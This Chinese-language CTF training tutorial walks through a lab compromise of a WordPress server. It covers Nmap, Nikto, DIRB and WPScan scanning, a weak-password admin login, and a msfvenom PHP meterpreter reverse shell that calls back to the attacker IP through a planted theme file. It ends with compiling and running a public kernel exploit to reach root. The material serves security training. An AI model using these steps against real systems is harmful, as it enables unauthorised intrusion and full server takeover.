








# CTF最强战队蓝莲花内部培训教程：P27：综合测试高难度内核提权WEB安全中级入侵 🚀

在本节课中，我们将学习如何通过Web安全漏洞，逐步获取服务器权限，最终提升至root权限，从而完全控制目标服务器并获取flag值。

## 概述：Web安全与渗透测试

随着Web技术的不断发展，社交网络、微博等一系列新型互联网产品诞生。基于Web环境搭建的应用和平台越来越多。Web业务的迅速发展也引起了黑客的强烈关注。随之而来的是Web安全危险日趋凸显。黑客利用网站操作系统的漏洞和Web中间件服务的漏洞，获取服务器的控制权限。轻者可以篡改网页内容，重则窃取公司内部的重要数据。更为严重的则是在网页中植入恶意代码，例如植入挖矿木马，使用户为黑客免费贡献带宽和资源。

通过Web入侵服务器后，再利用服务器漏洞获取更高权限，这是我们今天要学习的内容。

## 实验环境搭建

攻击机使用Kali Linux，IP地址是`192.168.253.12`。靶场机器地址是`192.168.253.14`。

在渗透测试或CTF比赛中，我们的目标非常明确：获取靶场机器的root权限，并找到对应的flag值。

## 第一步：信息探测

上一节我们介绍了实验环境，本节中我们来看看如何对目标服务器进行信息探测。

首先需要对服务器（靶场机器）的开放服务进行探测，包括服务类型和版本。这里我们使用Nmap工具。

以下是使用Nmap进行基础服务版本探测的命令：
```bash
nmap -sV 192.168.253.14
```

除了基础探测，我们还可以使用Nmap更全面的参数来探测靶场机器的所有信息：
```bash
nmap -T4 -A -v 192.168.253.14
```
*   `-T4`：代表使用最快速度进行扫描。
*   `-A`：表示使用全部探测方式，包括操作系统版本、服务版本等。
*   `-v`：表示返回所有回显信息。

探测结束后，我们可以分析扫描结果，寻找潜在的攻击入口。

## 第二步：Web服务深度探测

在探测完基础服务后，我们重点关注Web服务。以下是两个用于Web信息探测的工具。

首先，我们可以使用Nikto探测Web服务的目录和敏感信息：
```bash
nikto -h http://192.168.253.14
```
如果Web服务端口不是默认的80端口，则需要在URL后加上端口号，例如`http://192.168.253.14:8080`。

其次，我们可以使用DIRB来探测Web目录结构：
```bash
dirb http://192.168.253.14
```
同样，非80端口需要指定端口号。

## 第三步：漏洞分析与挖掘



探测完信息后，我们需要对结果进行深入分析，找到可以利用的弱点。



例如，在扫描结果中，我们发现了`robots.txt`文件，并判断出目标网站使用的是WordPress CMS。针对已知的CMS，我们可以使用专用工具进行漏洞扫描。

以下是使用WPScan枚举WordPress信息的命令：
```bash
wpscan --url http://192.168.253.14 --enumerate t,p,u
```
*   `--enumerate t`：枚举主题。
*   `--enumerate p`：枚举插件。
*   `--enumerate u`：枚举用户名。

在渗透测试或CTF中，需要注意以下几点：
1.  检查登录页面是否存在SQL注入或弱口令。
2.  查看页面源代码和扫描到的目录中是否存在敏感信息。
3.  判断系统是否为已知的CMS或框架，并查找公开的漏洞利用方式。
4.  注意备份文件（如`.bak`， `.old`），其中可能包含配置文件、用户名和密码。
5.  对获取的信息进行深入挖掘和抽象思考，不放过任何细节。

在本例的扫描结果中，我们发现了可能的用户名（如`admin`）和一些漏洞报告（如XSS、SQL注入）。我们可以尝试使用弱口令`admin/admin`登录WordPress后台，并成功进入。

## 第四步：获取Web Shell



成功进入后台后，常见的下一步是上传一个Web Shell，从而在服务器上执行命令。

首先，我们需要在攻击机上生成一个PHP的反弹Shell（Web Shell）并启动监听。
1.  生成Web Shell：
    ```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
    ```
    将生成的PHP代码保存为Web Shell文件。
2.  在MSFconsole中启动监听：
    ```bash
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set LHOST 192.168.253.12
    set LPORT 4444
    run
    ```
3.  在WordPress后台（例如通过编辑主题的404页面）上传生成的PHP Web Shell代码。
4.  在浏览器中访问上传的Web Shell文件路径，触发连接。此时，MSFconsole的监听端会收到一个反弹回来的Meterpreter Shell。





## 第五步：权限提升（提权）





通过Web Shell获得的初始权限往往是Web服务权限（如`www-data`），并非root权限。我们需要将其提升至root。

首先，我们需要探查目标系统的信息，寻找提权突破口。在获得的Shell中执行：
```bash
uname -a
```
此命令可以查看系统内核版本。例如，输出可能包含`Linux ubuntu 4.4.0-xx-generic`。

得知内核版本后，我们可以搜索公开的内核漏洞利用代码（Exploit）。在攻击机上，可以使用`searchsploit`工具：
```bash
searchsploit ubuntu 4.4.0 privilege escalation
```
假设我们找到了一个合适的本地提权漏洞，编号为`41458`。我们可以查看并编译该利用代码。
1.  定位并查看漏洞利用代码：
    ```bash
    searchsploit -x 41458
    ```
2.  将利用代码复制到本地并编译：
    ```bash
    cp /usr/share/exploitdb/exploits/linux/local/41458.c /root/Desktop/
    cd /root/Desktop
    gcc 41458.c -o shellroot
    ```
    这将生成一个名为`shellroot`的可执行程序。
3.  将编译好的`shellroot`程序上传到靶场服务器。在Meterpreter会话中：
    ```bash
    upload /root/Desktop/shellroot /tmp/
    ```
4.  在靶场服务器的Shell中，为上传的程序赋予执行权限并运行：
    ```bash
    cd /tmp
    chmod 777 shellroot
    ./shellroot
    ```
5.  如果漏洞利用成功，命令提示符会变成`#`，使用`id`或`whoami`命令确认当前用户已变为`root`，提权成功。

## 总结与目标达成

本节课中我们一起学习了从Web渗透到系统提权的完整流程。

1.  **信息收集**：使用Nmap、Nikto、DIRB、WPScan等工具对目标进行全方位探测。
2.  **漏洞利用**：分析扫描结果，针对WordPress CMS尝试弱口令登录后台。
3.  **建立立足点**：通过后台功能上传Web Shell，获取反向连接，建立初步控制。
4.  **权限提升**：探查系统内核信息，利用`searchsploit`查找公开的内核漏洞利用代码，编译并上传执行，最终将权限提升至root。



在CTF比赛中，最终目的是获取root权限并找到flag。在实际渗透测试中，则需根据授权范围，进行更深入的信息收集、横向移动或数据提取。整个过程强调了对信息的细致分析、对已知漏洞的快速利用，以及提权手法的灵活运用。